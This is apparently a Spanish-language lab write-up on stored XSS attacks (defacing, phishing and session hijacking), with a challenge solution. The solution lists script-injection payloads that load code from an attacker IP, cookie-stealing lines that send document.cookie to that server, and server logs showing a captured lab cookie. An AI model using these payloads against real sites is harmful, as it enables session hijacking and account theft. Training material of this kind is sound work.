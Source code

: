 # Defacing

Uno de los ataques más comunes que se suele utilizar con vulnerabilidades XSS almacenadas son los ataques de desfiguración de sitios web. Defacing un sitio web significa cambiar su apariencia para cualquiera que visite el sitio web. Es muy común que los grupos de piratas informáticos desfiguren un sitio web para afirmar que lo han pirateado con éxito, como cuando los piratas informáticos desfiguraron el Servicio Nacional de Salud (NHS) del Reino Unido en 2018 . Estos ataques pueden tener un gran eco en los medios y pueden afectar significativamente las inversiones y los precios de las acciones de una empresa, especialmente para los bancos y las empresas de tecnología.

Aunque se pueden utilizar muchas otras vulnerabilidades para lograr lo mismo, las vulnerabilidades XSS almacenadas se encuentran entre las vulnerabilidades más utilizadas para hacerlo. 

***

# Phishing
Otro tipo de ataque XSS muy común es el ataque de phishing. Los ataques de phishing suelen utilizar información que parece legítima para engañar a las víctimas para que envíen su información confidencial al atacante. Una forma común de ataques de phishing XSS es mediante la inyección de formularios de inicio de sesión falsos que envían los detalles de inicio de sesión al servidor del atacante, que luego pueden usarse para iniciar sesión en nombre de la víctima y obtener control sobre su cuenta e información confidencial. 

# Session Hijacking
Las aplicaciones web modernas utilizan cookies para mantener la sesión de un usuario durante diferentes sesiones de navegación. Esto permite al usuario iniciar sesión solo una vez y mantener activa su sesión iniciada incluso si visita el mismo sitio web en otro momento o fecha. Sin embargo, si un usuario malintencionado obtiene los datos de las cookies del navegador de la víctima, es posible que pueda iniciar sesión con el usuario de la víctima sin conocer sus credenciales.

Con la capacidad de ejecutar código JavaScript en el navegador de la víctima, es posible que podamos recopilar sus cookies y enviarlas a nuestro servidor para secuestrar su sesión iniciada realizando un Session Hijacking (también conocido como Cookie Stealing) ataque. 

## Reto

![alt text](images/13.png)
![alt text](images/14.png)

```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

```
"><script src=http://10.10.15.235></script>
```

```                            
┌──(h4wker㉿alien)-[/tmp/tmpserver]
└─$ sudo php -S 0.0.0.0:80
[Sat Nov 30 20:29:40 2024] PHP 8.2.24 Development Server (http://0.0.0.0:80) started
[Sat Nov 30 20:35:21 2024] 10.129.98.193:53106 Accepted
[Sat Nov 30 20:35:21 2024] 10.129.98.193:53106 [404]: GET / - No such file or directory
[Sat Nov 30 20:35:21 2024] 10.129.98.193:53106 Closing
```

```
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

```
"><script src=http://10.10.15.235/script.js></script>
```

```
┌──(h4wker㉿alien)-[/tmp/tmpserver]
└─$ sudo php -S 0.0.0.0:80
[sudo] password for h4wker: 
[Sat Nov 30 21:04:32 2024] PHP 8.2.24 Development Server (http://0.0.0.0:80) started
[Sat Nov 30 21:04:47 2024] 10.129.18.110:59258 Accepted
[Sat Nov 30 21:04:47 2024] 10.129.18.110:59258 [404]: GET / - No such file or directory
[Sat Nov 30 21:04:47 2024] 10.129.18.110:59258 Closing
[Sat Nov 30 21:04:48 2024] 10.129.18.110:59260 Accepted
[Sat Nov 30 21:04:48 2024] 10.129.18.110:59260 Closed without sending a request; it was probably just an unused speculative preconnection
[Sat Nov 30 21:04:48 2024] 10.129.18.110:59260 Closing
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59288 Accepted
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59288 [200]: GET /script.js
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59288 Closing
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59290 Accepted
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59290 [404]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d - No such file or directory
[Sat Nov 30 21:05:02 2024] 10.129.18.110:59290 Closing

```


![alt text](images/15.png)

![alt text](images/16.png)